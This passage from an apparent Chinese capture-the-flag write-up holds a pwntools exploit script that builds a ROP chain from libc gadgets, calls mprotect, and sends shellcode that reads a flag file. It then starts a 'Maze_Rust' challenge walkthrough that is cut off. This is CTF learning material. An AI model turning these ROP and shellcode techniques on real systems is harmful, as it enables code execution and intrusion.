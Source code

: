 ```python

p.sendafter(b'number :', p64(0x404000 + 0x800))
p.sendafter(b'byte :', b'\x70')

pop_rdi = base + libc.search(asm('pop rdi; ret')).__next__()
pop_rsi = base + libc.search(asm('pop rsi; ret')).__next__()
pop_rax = base + libc.search(asm('pop rax; ret')).__next__()
pop_rdx = base + libc.search(asm('pop rdx; ret')).__next__()
xchg_edx_eax = base + 0x01a7f27 # libc.search不知道为什么search不到，这里直接用的wp中的值

open_ = base + libc.symbols['open']
read_ = base + libc.symbols['read']
mprotect = base + libc.symbols['mprotect']

log.success('pop_rdi: ' + hex(pop_rdi))
log.success('pop_rsi: ' + hex(pop_rsi))
log.success('pop_rax: ' + hex(pop_rax))
log.success('xchg_edx_eax: ' + hex(xchg_edx_eax))
log.success('pop_rdx: ' + hex(pop_rdx))
log.success('open: ' + hex(open_))
log.success('read: ' + hex(read_))
log.success('mprotect: ' + hex(mprotect))

# pause()

payload = b'a' * 0x18
payload += p64(pop_rdi) + p64(base + 0x1000)
payload += p64(pop_rsi) + p64(0x1000)
payload += p64(pop_rax) + p64(7) + p64(xchg_edx_eax)
payload += p64(mprotect)
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi) + p64(base + 0x1000)
payload += p64(pop_rax) + p64(0x1000) + p64(xchg_edx_eax)
payload += p64(read_)
payload += p64(base + 0x1000) # 这里最后还不清楚为什么要加起始位置

p.send(payload)

shellcode = shellcraft.open('./flag', 0, 0)
shellcode += shellcraft.read('rax', base + 0x1800, 0x100)
shellcode += shellcraft.write(2, base + 0x1800, 'rax')

p.send(asm(shellcode))

p.interactive()
```
![[Pasted image 20241031164815.png]]
# Week 4
## PWN
### Maze_Rust
![[Pasted image 20241022151223.png]]
运行程序，发现输入1可以生成迷宫，输入3是查看迷宫
![[Pasted image 20241022151340.png]]
输入wasd可以移动
![[Pasted image 20241022151406.png]]
那么这一部分可以编程解决，让其将迷宫走出。
输入2，他会要求我们输入一个神秘代码